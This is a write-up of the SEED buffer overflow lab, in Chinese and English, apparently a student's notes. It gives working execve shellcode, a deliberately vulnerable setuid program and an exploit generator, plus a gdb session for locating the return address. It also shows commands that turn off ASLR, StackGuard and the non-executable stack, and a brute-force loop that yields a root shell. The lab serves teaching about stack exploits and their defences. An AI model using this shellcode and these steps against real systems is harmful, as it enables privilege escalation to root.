


# Buffer Overflow Vulnerability Lab

基于 [seed BufferOverflow](http://www.cis.syr.edu/~wedu/Teaching/cis643/RevisedPDF/Buffer_Overflow.pdf) 实验完成

## 0x01 缓冲区溢出

缓冲区溢出定义为程序试图在预分配的固定长度缓冲区的边界之外写入数据的条件。 恶意用户可以利用此漏洞来更改程序的流控制，甚至执行任意代码。

出现此漏洞的原因是数据区（例如缓冲区）和代码区（例如返回地址）的混合：数据部分的溢出会影响程序的控制流程，因为溢出会改变返回地址。

## 0x02 Lab Tasks

### 初始设置

1. 地址空间随机化

   某些基于 Linux 的系统使用地址空间随机化来随机化堆和堆栈的起始地址。使猜测准确的地址变得困难；猜测地址是缓冲区溢出攻击的关键步骤之一。我们使用以下命令禁用该功能：
   

```sh
sudo sysctl -w kernel.randomize_va_space=0
```

2. StackGuard 保护方案

   GCC 编译器使用一种称为"Stack Guard"的安全机制防止缓冲区溢出。 在这种情况下，缓冲区溢出将不起作用。 使用`-fno-stack-protector`开关编译程序，则可以禁用此保护。在禁用 Stack Guard 的情况下编译程序 example.c：

   ```sh
   gcc -fno-stack-protector example.c
   ```

3. 不可执行堆栈

   程序(和共享库)的二进制镜像必须声明它们是否需要可执行堆栈。 内核或动态链接器使用此标记来决定是否使此运行程序的堆栈可执行或不可执行。默认情况下，堆栈设置为不可执行。 要更改这一点，在编译程序时使用以下选项：

   ```sh
   gcc -z execstack -o test test.c

   gcc -z noexecstack -o test test.c
   ```

### Shellcode

shellode 是启动 shell 的代码。它必须加载到内存中，这样我们就可以强制易受攻击的程序跳转到它。操纵程序的一种方法是强制其进行系统调用或 syscall，Linux 中的系统调用是通过软件中断来完成的，并使用 int 0x80 指令进行调用。 当用户模式程序执行`int 0x80`时，CPU 切换到内核模式并执行 syscall 函数。具体步骤如下：

1. 特定的系统调用号已加载到 EAX 中

   这是我们在 EAX 寄存器（系统调用）中给出的 linux 内核命令号。例如：movl \$ 1，％eax（用于退出系统调用）

2. syscall 函数的参数放在其他寄存器中。 有关 ebx 寄存器中的状态号的信息。例如：`movl $ 1，％ebx`

3. 执行指令`int 0x80` 唤醒内核以运行命令

4. CPU 切换到内核模式

5. syscall 函数被执行

考虑以下程序：

```c
#include<stdio.h>

int main()
{
    char *name[2];

    name[0] = '/bin/sh';
    name[1] = NULL;
    execve(name[0], name, NULL);
}
```

我们使用的 shellcode 是上述程序的汇编版本。 以下程序显示了如何通过执行存储在缓冲区中的 shellcode 来启动 shell:s

```c
/* call_shellcode.c  */

/*A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>

const char code[] =
  "\x31\xc0"             /* xorl    %eax,%eax              */
  "\x50"                 /* pushl   %eax                   */
  "\x68""//sh"           /* pushl   $0x68732f2f

  将//sh而不是/sh压入堆栈 因为这里需要一个 32 位数字，而/sh只有 24 位      */
  "\x68""/bin"           /* pushl   $0x6e69622f            */
  "\x89\xe3"             /* movl    %esp,%ebx         将 name[0]存储到％ebx     */
  "\x50"                 /* pushl   %eax                   */
  "\x53"                 /* pushl   %ebx                   */
  "\x89\xe1"             /* movl    %esp,%ecx        将name存储到％ecx      */
  "\x99"                 /* cdq       将％edx 设置为零           */
  "\xb0\x0b"             /* movb    $0x0b,%al              */
  "\xcd\x80"             /* int     $0x80   将％al 设置为 11 并执行int $0x80 execve()被调用           */
;

int main(int argc, char **argv)
{
   char buf[sizeof(code)];
   strcpy(buf, code);
   ((void(*)( ))buf)( );
}
```

使用下列命令编译

```sh
gcc -o call_shellcode -fno-stack-protector -z execstack  -no-pie  -m32  call_shellcode.c

现代机器上默认有许多保护机制，可通过下列选项关闭
-fno-stack-protector 关闭栈保护
-z execstack 使栈可执行
-no-pie PIE机制，在windows中被称作ASLR，即地址随机化
-m32 确保编译生成文件为32位，在64bit机器上需要
```

使用`checksec`可以看到该文件的许多保护机制已经关闭。shell 被成功调用



### The Vulnerable Program

```c
/* stack.c */
/* This program has a buffer overflow vulnerability. */
/* Our task is to exploit this vulnerability */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int bof(char *str)
{
    char buffer[12];

    /* The following statement has a buffer overflow problem */
    strcpy(buffer, str);

    return 1;
}

int main(int argc, char **argv)
{
    char str[517];
    FILE *badfile;

    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 517, badfile);
    bof(str);

    printf("Returned Properly\n");
    return 1;
}
```

编译上述易受攻击的程序，并将其设置为 root-uid。可以通过在 root 帐户中进行编译来实现此目的，然后将可执行文件 chmod 更改为 4755

（包括`execstack`和`-fno-stack-protector`选项以关闭不可执行的堆栈和 StackGuard 保护）

```sh
gcc -o stack -z execstack -fno-stack-protector stack.c
chmod 4755 stack
```

上面的程序有一个缓冲区溢出漏洞。 它首先从名为`badfile`的文件中读取输入，然后将该输入传递到函数 bof()中的另一个缓冲区。 原始输入的最大长度可以为 517 个字节，但是 bof()中的缓冲区只有 12 个字节长。 因为 strcpy()不检查边界，所以会发生缓冲区溢出。 由于此程序是 set-root-uid 程序，因此，如果普通用户可以利用此缓冲区溢出漏洞，则普通用户可能能够获得 root shell。所以我们的目标是为`badfile`创建内容，以便当易受攻击的程序将内容复制到其缓冲区中时，可以生成根 shell。

### Task 1: Exploiting the Vulnerability

实验已经提供部分完成的代码，称为`exploit.c`。 此代码的目标是构造`badfile`。

```c
/* exploit.c  */

/* A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
char shellcode[]=
    "\x31\xc0"             /* xorl    %eax,%eax              */
    "\x50"                 /* pushl   %eax                   */
    "\x68""//sh"           /* pushl   $0x68732f2f            */
    "\x68""/bin"           /* pushl   $0x6e69622f            */
    "\x89\xe3"             /* movl    %esp,%ebx              */
    "\x50"                 /* pushl   %eax                   */
    "\x53"                 /* pushl   %ebx                   */
    "\x89\xe1"             /* movl    %esp,%ecx              */
    "\x99"                 /* cdq                            */
    "\xb0\x0b"             /* movb    $0x0b,%al              */
    "\xcd\x80"             /* int     $0x80                  */
;

void main(int argc, char **argv)
{
    char buffer[517];
    FILE *badfile;

    /* Initialize buffer with 0x90 (NOP instruction) */
    memset(&buffer, 0x90, 517);

    /* You need to fill the buffer with appropriate contents here */
    /* strcpy(buffer,"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x??\x??\x??\x??"); */
    /*strcpy(buffer+100,shellcode); */

    /* Save the contents to the file "badfile" */
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}
```

To beginnig the attack, we need the address of shellcode.

```sh
seed@ubuntu:~/Desktop$ gdb --quiet stack
Reading symbols from /home/seed/Desktop/stack...(no debugging symbols found)...done.
(gdb) disassemble main
Dump of assembler code for function main:
   0x080484a3 <+0>:	    push   %ebp
   0x080484a4 <+1>:	    mov    %esp,%ebp
   0x080484a6 <+3>:	    and    $0xfffffff0,%esp
   0x080484a9 <+6>:	    sub    $0x220,%esp
   0x080484af <+12>:	mov    $0x80485f0,%edx
   0x080484b4 <+17>:	mov    $0x80485f2,%eax
   0x080484b9 <+22>:	mov    %edx,0x4(%esp)
   0x080484bd <+26>:	mov    %eax,(%esp)
   0x080484c0 <+29>:	call   0x80483c0 <fopen@plt>
   0x080484c5 <+34>:	mov    %eax,0x21c(%esp)
   0x080484cc <+41>:	lea    0x17(%esp),%eax
   0x080484d0 <+45>:	mov    0x21c(%esp),%edx
   0x080484d7 <+52>:	mov    %edx,0xc(%esp)
   0x080484db <+56>:	movl   $0x205,0x8(%esp)
   0x080484e3 <+64>:	movl   $0x1,0x4(%esp)
   0x080484eb <+72>:	mov    %eax,(%esp)
   0x080484ee <+75>:	call   0x8048370 <fread@plt>
   0x080484f3 <+80>:	lea    0x17(%esp),%eax
   0x080484f7 <+84>:	mov    %eax,(%esp)
   0x080484fa <+87>:	call   0x8048484 <bof>
   0x080484ff <+92>:	movl   $0x80485fa,(%esp)
   0x08048506 <+99>:	call   0x8048390 <puts@plt>
   0x0804850b <+104>:	mov    $0x1,%eax
   0x08048510 <+109>:	leave
   0x08048511 <+110>:	ret
End of assembler dump.
(gdb) b *0x080484af
Breakpoint 1 at 0x80484af
(gdb) r
Starting program: /home/seed/Desktop/stack

Breakpoint 1, 0x080484af in main ()
(gdb) i r $esp
esp            0xbffff150	0xbffff150
```

We know `esp`'s value is the beginning address of `str`, according to `strcpy(buffer+100,shellcode);`, we can calculate shellcode's address is 0xbffff150(HEX)+100(DEC)=0xbffff1b4(HEX). We replace `\x??\x??\x??\x??` to `\xb4\xf1\xff\xbf`, because when buffer overflow happened this place's return address will be overwrite.

After we finish the above program, compile and run it. This will generate the contents for "badfile". Then run the vulnerable program stack. If our exploit is implemented correctly, we should be able to get a root shell.

```sh
[08/10/2016 05:56] seed@ubuntu:~/Desktop$ ./exploit
[08/10/2016 05:56] seed@ubuntu:~/Desktop$ ./stack
# whoami
root
```

Many commands will behave differently if they are executed as Set-UID root processes, instead of just as root processes, because they recognize that the real user id is not root. To solve this problem, you can run the following program to turn the real user id to root. This way, you will have a real root process, which is more powerful.

```c
void main()
{
    setuid(0); system("/bin/sh");
}
```

### Task 2: Address Randomization

Now, we turn on the Ubuntu’s address randomization. We run the same attack developed in Task 1. Can you get a shell? If not, what is the problem? How does the address randomization make your attacks difficult?

```sh
sudo sysctl -w kernel.randomize_va_space=2
```

If running the vulnerable code once does not get you the root shell, how about running it for many times? You can run `./stack` in the following loop , and see what will happen. If your exploit program is designed properly, you should be able to get the root shell after a while. You can modify your exploit program to increase the probability of success (i.e., reduce the time that you have to wait).

```sh
seed@ubuntu:~/Desktop$ sh -c "while [ 1 ]; do ./stack; done;"
# whoami
root
```

### Task 3: Stack Guard

Before working on this task, remember to turn off the address randomization first, or you will not know which protection helps achieve the protection.

In our previous tasks, we disabled the “Stack Guard” protection mechanism in GCC when compiling the programs. In this task, you may consider repeating task 1 in the presence of Stack Guard. To do that, you should compile the program without the `-fno-stack-protector` option. For this task, you will recompile the vulnerable program, stack.c, to use GCC’s Stack Guard, execute task 1 again.

```sh
root@ubuntu:/home/seed/Desktop# sysctl -w kernel.randomize_va_space=0
kernel.randomize_va_space = 0
root@ubuntu:/home/seed/Desktop# gcc -o stack stack.c
root@ubuntu:/home/seed/Desktop# chmod u+s stack
root@ubuntu:/home/seed/Desktop# exit
exit
seed@ubuntu:~/Desktop$ ./stack
*** stack smashing detected ***: ./stack terminated
Segmentation fault (core dumped)
```

### Task 4: Non-executable Stack

Before working on this task, remember to turn off the address randomization first, or you will not know which protection helps achieve the protection.

In our previous tasks, we intentionally make stacks executable. In this task, we recompile our vulnerable program using the `noexecstack` option, and repeat the attack in Task 1. Can you get a shell? If not, what is the problem? How does this protection scheme make your attacks difficult. You can use the following instructions to turn on the `non-executable` stack protection.

```sh
gcc -o stack -fno-stack-protector -z noexecstack stack.c
```

It should be noted that non-executable stack only makes it impossible to run shellcode on the stack, but it does not prevent buffer-overflow attacks, because there are other ways to run malicious code after exploiting a buffer-overflow vulnerability. The `return-to-libc` attack is an example.

```sh
root@ubuntu:/home/seed/Desktop# sysctl -w kernel.randomize_va_space=0
kernel.randomize_va_space = 0
root@ubuntu:/home/seed/Desktop# gcc -o stack -z noexecstack -fno-stack-protector stack.c
root@ubuntu:/home/seed/Desktop# chmod u+s stack
root@ubuntu:/home/seed/Desktop# exit
exit
seed@ubuntu:~/Desktop$ ./stack
Segmentation fault (core dumped)
```
